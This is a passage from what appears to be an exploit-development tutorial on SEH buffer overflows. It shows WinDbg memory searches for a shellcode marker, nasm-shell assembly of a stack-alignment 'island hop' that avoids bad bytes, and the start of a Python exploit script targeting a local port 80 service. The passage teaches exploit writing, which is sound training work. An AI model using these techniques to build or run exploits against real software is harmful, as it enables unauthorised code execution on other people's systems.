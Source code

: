 ```python
s.send(request)
s.close()
```
{% endcode %}

Search the stack memory to find the shellcode stub start address:

```
0:012> dd eip L1
01caff5e  d34dc0d3
0:012> !teb
TEB at 002d2000
    ExceptionList:        01cab90c
    StackBase:            01cb0000
    StackLimit:           01caa000
0:012> s -b 01caa000 01cb0000 d3 c0 4d d3 43 43 43 43 43 43 43 43
01cac856  d3 c0 4d d3 43 43 43 43-43 43 43 43 43 43 43 43  ..M.CCCCCCCCCCCC
01cadaae  d3 c0 4d d3 43 43 43 43-43 43 43 43 43 43 43 43  ..M.CCCCCCCCCCCC
01caed06  d3 c0 4d d3 43 43 43 43-43 43 43 43 43 43 43 43  ..M.CCCCCCCCCCCC
01caff5e  d3 c0 4d d3 43 43 43 43-43 43 43 43 43 43 43 43  ..M.CCCCCCCCCCCC
0:012> dd 01cac856 L96
01cac856  d34dc0d3 43434343 43434343 43434343
...       ...      ...      ...      ...
01cacaa6  43434343 43434343
0:012> ? 01cac856 - @esp
Evaluate expression: 3922 = 00000f52
```




## 7. Island Hop

As one of the options of moving EIP into the shellcode, align the stack (ESP) with the corresponding offset from (6):

```
$ msf-nasm_shell
nasm > add esp, 0xf52
00000000  81C4520F0000      add esp,0xf52  // Contains bad zero bytes
nasm > add sp, 0xf52
00000000  6681C4520F        add sp,0xf52
nasm > jmp esp
00000000  FFE4              jmp esp
```

Update your script with the disassembled align & jump instructions.

{% code title="sehof_island_hop.py" %}
```python
#!/usr/bin/env python3

import socket
import struct

def little_endian(num):
    return struct.pack('<I', num)

host = '127.0.0.1'
port = 80
size = 6000
shellcode_size = 600

shellcode  = little_endian(0xd34dc0d3)
shellcode += b'C' * (shellcode_size - len(shellcode))

exp  = little_endian(0x06eb9090)  # (NSEH) jmp +06
```